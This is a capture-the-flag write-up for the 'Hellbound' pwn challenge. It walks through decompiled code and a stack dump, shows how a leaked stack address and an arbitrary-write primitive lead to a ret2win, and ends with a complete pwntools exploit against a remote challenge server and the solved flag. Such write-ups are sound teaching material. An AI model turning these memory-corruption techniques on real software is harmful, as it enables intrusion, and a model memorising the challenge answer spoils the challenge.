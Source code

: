 # Hellbound

We are given only the binary.

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis

Decompiled `main` function:
```c
undefined8 main(void)

{
  ulong uVar1;
  long in_FS_OFFSET;
  void *local_50 [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_50[0] = malloc(0x40);
  do {
    while( true ) {
      while( true ) {
        printf(&DAT_00401070);
        uVar1 = read_num();
        if (uVar1 != 2) break;
        printf("\n[*] Write some code: ");
        read(0,local_50[0],0x20);
      }
      if (2 < uVar1) break;
      if (uVar1 == 1) {
        printf("\n[+] In the back of its head you see this serial number: [%ld]\n",local_50);
      }
      else {
LAB_00400de9:
        printf("%s\n\n[-] Invalid option!\n",&DAT_0040105b);
      }
    }
    if (uVar1 != 3) {
      if (uVar1 == 0x45) {
        free(local_50[0]);
        printf("%s[*] The beast seems quiet.. for the moment..\n",&DAT_0040105b);
        if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
          return 0;
        }
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      goto LAB_00400de9;
    }
    local_50[0] = *(void **)((long)local_50[0] + 8);
    printf("%s\n[-] The beast went Berserk again!\n",&DAT_0040105b);
  } while( true );
}
```


There is a win function called `berserk_mode_off`. Clearly, we need to overwrite the return address to the address of the win function

We can leak stack address via `Analyze chipset` (Option 1).
```c
printf("\n[+] In the back of its head you see this serial number: [%ld]\n",local_50);
```

To understand better, here is its assembly code:
```
LEA        RAX=>local_50,[RBP + -0x48]
MOV        RSI,RAX
LEA        RDI,[s__[+]_In_the_back_of_its_head_you_004010   = "\n[+] In the back of its head
MOV        EAX,0x0
CALL       <EXTERNAL>::printf
```

With the leaked stack address, we can obtain the stack address containing the return address.

Looking at the stack, the stack address containing the return address has an offset 0x50 from the leaked stack address:
```bash
gef➤  tel 0x00007ffc699befe0 30
0x00007ffc699befe0│+0x0000: 0xffffffff318ad168	 ← $rsp
0x00007ffc699befe8│+0x0008: 0x0000000000a84010  →  0x0000000000000000	 ← $rsi
0x00007ffc699beff0│+0x0010: 0x0000000000000001
0x00007ffc699beff8│+0x0018: 0x0000000000400e5d  →  <__libc_csu_init+77> add rbx, 0x1
0x00007ffc699bf000│+0x0020: 0x00007ffc699bf02e  →  0x000000400e106c3e
0x00007ffc699bf008│+0x0028: 0x0000000000000000
0x00007ffc699bf010│+0x0030: 0x0000000000400e10  →  <__libc_csu_init+0> push r15
0x00007ffc699bf018│+0x0038: 0x0000000000400890  →  <_start+0> xor ebp, ebp
0x00007ffc699bf020│+0x0040: 0x00007ffc699bf110  →  0x0000000000000001
0x00007ffc699bf028│+0x0048: 0x6c3ee7207c73d700
0x00007ffc699bf030│+0x0050: 0x0000000000400e10  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007ffc699bf038│+0x0058: 0x00007f97312dc840  →  <__libc_start_main+240> mov edi, eax
```

To change control flow, we need to execute `return`. So, we need to provide option 69 (0x45).
```c
if (uVar1 != 3) {
    if (uVar1 == 0x45) {
        free(local_50[0]);
        printf("%s[*] The beast seems quiet.. for the moment..\n",&DAT_0040105b);
        if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
            return 0;
        }
        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    goto LAB_00400de9;
}
```

As shown above, we can overwrite the content pointed by `local_50[0]` with option 2:
```c
read(0,local_50[0],0x20);
```

Interestingly, there is an interesting code in option 3:
```c
local_50[0] = *(void **)((long)local_50[0] + 8);
```

If we were to use option 2 and spray 8 random characters followed by the stack address of the return address, we can use option 3 to make `local_50[0]` contains the stack address of the return address. Then, we can modify the return address to our choice using option 2.

However, the program will crash if it returns when `local_50` contains the stack address of the return address as option 69 runs the following line of code:
```c
free(local_50[0]);
```

To resolve this issue, we can modify the return address with `address of the win function + p64(0)`. Then, use option 3 to make `local_50` contains 0. Then, running option 69 will not crash as `free(0)` does nothing (according to c standard).

## Exploit
Idea: Leak stack address and calculate the stack address of the return address. Modify the heap content to `8 random characters + stack address of return address`. Run option 3 to make `local_50` contains stack address of the return address. Modify the return address to `address of win function + p64(0)`. Run option 3 to make `local_50` contains 0. Run option 69 to change control flow to win function.
```python
from pwn import *

elf = ELF('./hellhound')
#r = elf.process()
r = remote('134.209.177.202', 30812)
#pause()

# leak stack address and calculate stack return address
r.sendlineafter(b'>> ', b'1') # analyze chipset
r.recvuntil(b'this serial number: [')
stack_leak = int(r.recvuntil(b']', drop=True).decode())
print("STACK LEAK: " + hex(stack_leak))
ret_stack_addr = stack_leak + 0x50
print("RET ADDR: " + hex(ret_stack_addr))

# modify the content of heap
r.sendlineafter(b'>> ', b'2') # modify hardware
payload = b'A' * 8 + p64(ret_stack_addr)
r.sendlineafter(b'Write some code: ', payload)

# local50[0] -> return address
r.sendlineafter(b'>> ', b'3') # check results

# modify the return address to address of win function
win = 0x400977
r.sendlineafter(b'>> ', b'2')
payload = p64(win) + p64(0) # abuse the fact that free(0) is no action
r.sendlineafter(b'Write some code: ', payload)

# local50[0] -> 0x0
r.sendlineafter(b'>> ', b'3')

# ret2win
r.sendlineafter(b'>> ', b'69')

r.interactive()
```

Flag: `HTB{1t5_5p1r1t_15_5tr0ng3r_th4n_m0d1f1c4t10n5}`